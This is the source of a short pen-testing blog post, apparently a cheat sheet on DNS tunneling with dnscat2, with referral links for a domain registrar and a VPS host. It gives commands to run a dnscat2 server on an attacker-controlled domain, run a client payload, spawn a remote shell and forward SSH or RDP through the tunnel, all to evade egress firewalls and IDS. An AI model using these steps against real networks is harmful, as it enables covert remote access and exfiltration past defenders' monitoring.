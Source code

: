 ```yaml
---
layout: blog_item
title: "DNS Tunneling dnscat2 Cheat Sheet"
date:   2024-06-24 10:29:10
author: Dhruv Ambaliya
description: 'Learn what DNS tunneling is, when to use it on a pen test and how to tunnel over DNS using dnscat2.'
categories: [cheat-sheet]
tags:

- 'Infrastructure'
---
```


* list element with functor item
{:toc}

## What is DNS Tunneling 

DNS tunneling is used to evade egress firewall rules and/or IDS / proxy or other web filtering applicances by tunneling data over DNS. DNS tunneling usually works as external DNS resolution is available on most networks, it should be noted that DNS tunneling is slow due to the low amounts of data that can be transfered. 
<!--more-->

**What You Will Learn:**

- What is DNS tunneling 
- How to setup dnscat2
- How to tunnel data over dnscat2 

## You Will Need

1. A real world domain, <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> works well and has free WHOIS privacy.
2. A VPS to run DNSCAT2 - <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode is cheap and works for this and this link will give you a $100 voucher</a> (see instructions below) 

In order to tunnel data over DNS a real world domain must be used and the domains authoritivate name servers must be set to servers in your control. 


## Buying a Domain 

<a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a>  offers free domain WHOIS privacy, a lot of extensions and is well priced. 

### How to Change Name Servers On NameSilo 

Login to <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> and follow these instructions to change the authoritative name servers: 

1.  Go to the Domain Manager page within your account
2.  Click the applicable domain name (it will be underlined in black)
3.  Click the "View/Manage Registered NameServers" link within the "NameServers" box

## DNS Forwarding with Dnscat2  

1. Install dsncat2 ```apt-get install dnscat2 -y```
2. Run:  ```dnscat2-server yourdomain.com``` on your VPS
3. From the client machine you will need to run the dnscat2 payload 
4. If your domain's NS are configured correctly the session should be established 
5. Enter ```session -i``` to spawn an interactive session 
6.  Launch a shell using ```shell```

## Dnscat2 Port Forwarding 

Dnscat2 supports TCP forwarding allowing you to tunnel SSH or RDP connections over the established DNS tunnel. 

{% highlight bash %} 
command (client) 4> listen 127.0.0.1:22 target:22 
{% endhighlight %}

Again this will slow but functional. 

Enjoy.	
